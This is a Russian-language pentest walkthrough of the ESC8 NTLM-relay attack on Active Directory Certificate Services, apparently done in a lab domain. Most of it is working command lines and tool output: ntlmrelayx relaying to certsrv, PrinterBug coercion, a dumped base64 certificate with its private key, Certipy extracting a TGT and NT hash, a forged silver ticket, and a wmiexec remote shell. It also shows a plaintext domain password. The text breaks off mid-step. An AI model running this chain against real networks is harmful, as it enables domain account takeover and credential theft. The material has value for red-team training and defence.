

## ESC8

Веб-сервисы (Certificate Authority Web Enrollment, Certificate Enrollment Web Service) для выдачи сертификатов в AD CS по умолчанию ставятся с незащищенным HTTP. При этом если включен только HTTPS, но без Extended Protection for Authentication (EPA), то сервис все равно уязвим. Про защиту от этой атаки: https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429  
По умолчанию присутствуют активные шаблоны, разрешающие использование сертификата для клиентской аутентификации и доступные рядовым членам домена, - Machine и User. В таких условиях (дефолтная конфигурация) возможность перенаправления аутентификации NTLM компьютера или пользователя приводит к легкой компрометации аккаунта соответствующего компьютера или пользователя.

Для этого заводим ntlmrelayx:
```
ntlmrelayx.py -debug -smb2support --target http://TEMP-DC.org.local/certsrv/certfnsh.asp --adcs --template Machine
```

На HTTP можно релеить даже с SMB, поэтому есть множество вариантов провокации подключения компьютера с его учетной записью. Например, принтербаг https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py, который часто работает, т.к. часто включен сервис MS-RPRN. (Или https://github.com/topotam/PetitPotam, https://github.com/Wh04m1001/DFSCoerce, https://github.com/ShutdownRepo/ShadowCoerce, ...)  
На данный момент на рядовом сервере/воркстейшне домена доступен только 3389 порт:
```
nmap -sS -Pn -n 10.128.0.18
...
Not shown: 999 filtered ports
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
Чтобы активировать SMB, например, расшарим директорию на хосте, зайдя под админом:

```
nmap -sS -Pn -n 10.128.0.18
...
Not shown: 996 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

Проверяем, что MS-RPRN включен:
```
# rpcdump.py org.local/user:'6GYToz&UOjAt5GH'@10.128.0.18 | grep MS-RPRN
Protocol: [MS-RPRN]: Print System Remote Protocol
```

Пулим принтербаг:
```
# python dementor.py -d org.local -u user -p '6GYToz&UOjAt5GH' 10.128.0.3 10.128.0.18
[*] connecting to 10.128.0.18
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
```
И получаем сертификат в ntlmrelayx:
```
[*] Servers started, waiting for connections
[*] SMBD-Thread-4: Connection from ORG/WIN2$@10.128.0.18 controlled, attacking target http://TEMP-DC.org.local
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://TEMP-DC.org.local as ORG/WIN2$ SUCCEED
[*] SMBD-Thread-4: Connection from ORG/WIN2$@10.128.0.18 controlled, attacking target http://TEMP-DC.org.local
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://TEMP-DC.org.local as ORG/WIN2$ SUCCEED
[*] SMBD-Thread-4: Connection from ORG/WIN2$@10.128.0.18 controlled, attacking target http://TEMP-DC.org.local
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://TEMP-DC.org.local as ORG/WIN2$ SUCCEED
[*] SMBD-Thread-4: Connection from ORG/WIN2$@10.128.0.18 controlled, attacking target http://TEMP-DC.org.local
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://TEMP-DC.org.local as ORG/WIN2$ SUCCEED
[*] SMBD-Thread-4: Connection from ORG/WIN2$@10.128.0.18 controlled, attacking target http://TEMP-DC.org.local
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://TEMP-DC.org.local as ORG/WIN2$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE!
[*] Base64 certificate of user WIN2$:
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
[*] Skipping user WIN2$ since attack was already performed
[*] Skipping user WIN2$ since attack was already performed
```
Сертификат незашифрованный, что подходит и является необходимым для Certipy, в ином случае пришлось бы его пересохранить в расшифрованном виде. Сертификат содержит private и public ключи. Сохраняем его в pfx (PKCS#12) формате:
```
printf "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" | base64 -d > win2.pfx
```
В таком виде можем использовать его для аутентификации с Certipy, с помощью которой можем получить TGT и NTLM-хеш учетной записи:
```
# certipy auth -pfx win2.pfx -dc-ip 10.128.0.8
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: win2$@org.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'win2.ccache'
[*] Trying to retrieve NT hash for 'win2$'
[*] Got hash for 'win2$@org.local': aad3b435b51404eeaad3b435b51404ee:b05591e32414ec8c1426547b4b95d21d
```
Надо отметить, что аутентификация по сертификатам - это PKINIT, который поддерживается еще с версий Windows Server 2000 и 2003, однако без msDS-KeyCredentialLink. Он работает с сертификатами, у которых в перечне разрешенных расширенных методов использования в EKU (Extended/Enhanced Key Usage) включено использование для аутентификации клиента с помощью одного из подходящих для этих целей OID. Такой сертификат можно использовать без msDS-KeyCredentialLink, а msDS-KeyCredentialLink можно использовать без сертификата, имея только ключевую пару, либо с сертификатом (неважно каким, главное - что получаем авторизованную ключевую пару). 

Итак, получив NTLM-хеш, можем нарисовать себе любой тикет TGS, подписанный ключом win2$. Имеет смысл создать тикет на имя администратора для доступа к сервисам на win2$, права будут определены исходя из субьекта, на который выписан тикет (администратора), и его можно будет использовать для получения доступа:
```
ticketer.py -nthash b05591e32414ec8c1426547b4b95d21d -domain-sid S-1-5-21-1277218239-411149427-4166067275 -domain org.local -spn cifs/win2.org.local adm
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for org.local/adm
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in adm.ccache
```
Можем подключиться:
```
# export KRB5CCNAME=adm.ccache
# wmiexec.py -k -no-pass win2.org.local -shell-type powershell
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\> whoami
org.local\adm

PS C:\> net user /domain
The request will be processed at a domain controller for domain org.local.

System error 5 has occurred.

Access is denied.
```
Доступ к доменным сервисам из этой сессии отсутствует, т.к. мы только авторизовались в сетевом сервисе на хосте и никакие механизмы не организуют в данном случае нам сквозную аутентификацию в других сервисах. Можно подробнее ознакомиться с темой, например, тут: https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/understanding-kerberos-double-hop/ba-p/395463, https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/ps-remoting-second-hop?view=powershell-7.2

Powershell в wmiexec это запуск отдельного процесса для каждой команды, что надо иметь в виду:
```
# wmiexec.py -k -no-pass win2.org.local -shell-type powershell
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\> $test=123; echo $test
123

PS C:\> echo $test

PS C:\>
```

Поднимем небольшой HTTP-сервис на нашем "атакаующем" хосте, чтобы раздавать файлы для атак:
```
